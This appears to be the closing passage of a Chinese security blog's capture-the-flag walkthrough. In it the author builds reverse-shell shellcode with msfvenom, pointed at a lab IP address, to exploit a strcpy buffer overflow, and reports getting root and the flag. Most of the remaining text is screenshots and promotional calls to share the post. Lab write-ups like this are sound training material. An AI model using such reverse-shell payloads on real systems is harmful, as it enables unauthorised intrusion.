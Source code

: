 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7Cib7sOESbp6iaS2DLV6ByNxzSB6HWdLurbibibSNFSjflRtshHO6wqiad6Kw/640?wx_fmt=png)

```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.182.133 LPORT=4444 -b 00 -f python
```

这边使用 msfvenom 生成 shellcode... 注意程序使用 strcpy 来触发溢出，所以 shellcode 里不能含有 null 字符，不然会截断...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CAYS0x4mWibxvWTwTbcncaWp1uRyI7rU11los2IvW5my25HXemibiarq8w/640?wx_fmt=png)

然后运行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CGINFNeoWVY7DRHjg3ib1bhfqIXpaqnXASJk2B8ZIsgYGxbaoL7jsUaQ/640?wx_fmt=png)

成功获取 root 和 flag 文件

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

这靶机挺难的... 继续脑补缓冲区溢出....

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/ymNhlIRQRwIDdqQDCiblECK9VN2KquqTzJXM7etEnDcIpDdITqzFuiapav9TDnIiaGgf1e4sP9IO6B5NEtEyg2t5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eGDabDaNAhQ72wHWRToOUZR31X9kamiak0wrpr3lxKHpuoTpia329Xu6T0OTYlZic9XeEyQ4twasnibb924VBgIt1g/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)